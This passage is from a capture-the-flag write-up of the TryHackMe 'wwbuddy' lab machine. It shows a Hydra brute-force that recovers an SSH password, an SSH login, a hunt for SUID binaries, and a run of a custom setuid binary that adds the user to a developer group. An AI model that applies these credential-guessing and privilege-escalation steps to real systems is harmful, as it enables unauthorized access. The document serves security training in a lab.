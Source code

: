 ```console
[DATA] attacking ssh://10.10.39.232:22/
[22][ssh] host: 10.10.39.232   login: jenny   password: **/**/199*
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-08 17:58:36
local@local:~/Documents/tryhackme/wwbuddy$ 
```
And we get a hit.

### Shell as jenny
```console
local@local:~/Documents/tryhackme/wwbuddy$ ssh jenny@10.10.39.232
jenny@10.10.39.232's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Nov  8 12:14:54 UTC 2020

  System load:  0.02              Processes:           111
  Usage of /:   44.1% of 9.78GB   Users logged in:     0
  Memory usage: 77%               IP address for eth0: 10.10.39.232
  Swap usage:   0%


53 packages can be updated.
0 updates are security updates.


$ 
```

### Listing all SUID binaries
```console
jenny@wwbuddy:~$ find / -type f -perm -4000 -ls 2>/dev/null   
       66     40 -rwsr-xr-x   1 root     root        40152 Oct 10  2019 /snap/core/8268/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/8268/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/8268/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/8268/bin/su
      116     27 -rwsr-xr-x   1 root     root        27608 Oct 10  2019 /snap/core/8268/bin/umount
...........
...........
   267949     12 -rwsr-xr-x   1 root     root                8584 Jul 28 03:54 /bin/authenticate   
   ........
   ........
```
And I found a non standard binary ie **/bin/authenticate**.

### Executing the binary as jenny
```console
jenny@wwbuddy:~$ id
uid=1002(jenny) gid=1002(jenny) groups=1002(jenny)
jenny@wwbuddy:~$ /bin/authenticate 
Group updated
$ id
uid=1002(jenny) gid=200(developer) groups=200(developer),1002(jenny)
```
What it did was, added jenny to group developer.
